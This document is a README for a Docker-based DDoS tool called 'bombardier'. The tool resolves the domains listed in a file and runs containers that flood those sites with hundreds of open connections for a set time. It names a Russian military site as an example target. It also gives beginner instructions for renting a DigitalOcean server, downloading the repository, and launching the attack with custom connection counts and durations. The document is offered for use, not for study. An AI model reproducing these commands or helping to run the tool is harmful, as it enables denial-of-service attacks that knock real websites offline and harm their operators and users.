 # Bombardier script using Docker

This script parses domains, receive their IP in DNS and then run multiple Docker containers that execute site bombarding (DDoS). Fill domains.txt with domains you want to bombard. The default setting is 250 open connections for 30 mins.

## Docker Installation

https://docs.docker.com/engine/install/ubuntu/

## Domains list to be attacked (IMPORTANT!)

The source file must contain only domains, one per row.
[What is domain?](https://www.cloudflare.com/learning/dns/glossary/what-is-a-domain-name/)

#### Wrong domain examples:

```
structure.mil.ru/structure/uc/info.htm
https://structure.mil.ru
https://structure.mil.ru/structure
https://structure.mil.ru/
structure.mil.ru/
https://www.cloudflare.com/learning/
https://www.cloudflare.com
```

#### Correct domain examples:

```
structure.mil.ru
www.cloudflare.com
cloudflare.com
```

## Download

If you have git installed

```shell
git clone github.com/capcatd/bombardier
cd bombardier
```

If you DON'T have git installed

```shell
wget https://codeload.github.com/capcatd/bombardier/zip/refs/heads/main >> main.zip && unzip -o main && cd bombardier-main
```

## Usage

Using default domains file (domains.txt)

```shell
chmod +x script.sh
./script.sh
```

Using your own domains file (e.g. my_domains_file.txt)

```shell
chmod +x script.sh
./script.sh -df my_domains_file.txt
```

Using your own value for bombarding duration (e.g. 5400 seconds)

```shell
chmod +x script.sh
./script.sh -d 5400

```

Using your own bombarding connections count (e.g. 300)

```shell
chmod +x script.sh
./script.sh -c 300
```

Using custom command

```shell
chmod +x script.sh
./script.sh -c 300 -d 39600 -df my_doms_file.txt
```

### INSERT DOMAINS WITHOUT PROTOCOL (e.g. google.com instead of https://google.com)

## For beginners

1. Register or login on
   https://digitalocean.com

2. Open https://cloud.digitalocean.com/droplets/new

3. Choose the same settings as on the images below
   ![docker image](do_1.png)
   ![base plan](do_2.png)
   ![region](do_3.png)
   ![password](do_4.png)

4. Click 'Create droplet' in the bottom

5. After droplet was created, open details and click 'Access' on the left sidebar

6. Click 'Launch Droplet Console'
   ![access](do_5.png)

7. (optional) Paste sites you're going to bombard to the file domains.txt (each domain on the separate line)

8. Paste these commands to the opened terminal window
   ![console](do_6.png)

```shell
apt install -y unzip
```

```shell
wget https://codeload.github.com/capcatd/bombardier/zip/refs/heads/main >> main.zip && unzip -o main && cd bombardier-main
```

```shell
chmod +x script.sh
```

```shell
./script.sh
```

9. After everythins is done you should see similar message
   ![final](do_7.png)
